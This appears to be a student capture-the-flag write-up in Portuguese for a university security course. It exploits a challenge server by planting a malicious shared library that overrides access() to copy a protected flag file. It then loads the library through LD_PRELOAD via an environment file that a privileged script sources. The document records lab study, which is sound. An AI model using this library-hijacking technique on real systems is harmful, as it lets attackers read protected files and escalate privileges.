 # CTF 2 - Semana 4

## Reconhecimento

Ao entrarmos no port 4006 do host ctf-fsi.fe.up.pt, usando o comando `nc ctf-fsi.fe.up.pt 4006` com o vpn da FEUP ativado, fizemos o ls -l para verificar o conteúdo da pasta onde estávamos.

![ls](/Images/lsl.png)

Após analisar o conteúdo do admin_note.txt , usando o `cat admin_note.txt`, percebemos que existe uma vulnerabilidade que pode ser explorada na pasta `tmp`, usando um script que corre regularmente no servidor. Podemos aproveitar isso para dar load de uma livraria maliciosa que é executado automáticamente pelo servidor (pois só ele tem as permissões para tal). Na livraria maliciosa podemos dar override à uma das funções que se encontram no main.c (`(my_big_congrats() puts() acess() )` e executar o nosso código malicioso, obtendo assim a flag.


```
flag_reader,

I locked you out of the temp folders.
Told you before they are not to be used as permanent storage!
Hackers stole the flag by reading the files you left there!!!!!!
Finish your damn program ASAP!!!!!
Tired of waiting for you to lock them out for good, you lazy !@%#

- The Admin
```
*admin_notes.txt*

```
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
*my_script.sh*

```
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
*main.c*



## Ataque

Ao acedermos à pasta `tmp`, vamos criar um ficheiro access.c onde vamos escrever o nosso código malicioso, que será o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
}
```

Usando o seguinte comando, vamos escrever o código no ficheiro através do terminal:

```
echo '
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} ' >> access.c
```

Podemos aproveitar para fazer `touch ll.txt` e `chmod 777 ll.txt` só para evitar problemas que possam surgir.

Agora vamos criar a tal livraria maliciosa:

```
gcc -fPIC -g -shared -o /tmp/access.so /tmp/access.c -lc
```

E por fim, vamos alterar o conteúdo do env no tmp , dado que na imagem anterior, podemos reparar que é uma referência a este env:

```
echo 'LD_PRELOAD=/tmp/access.so' >> env
```

Agora esperamos que o servidor execute o nosso código e podemos obter a nossa flag no ficheiro .txt que criamos.

Exemplo de demonstração:

![flag](Images/order.png)

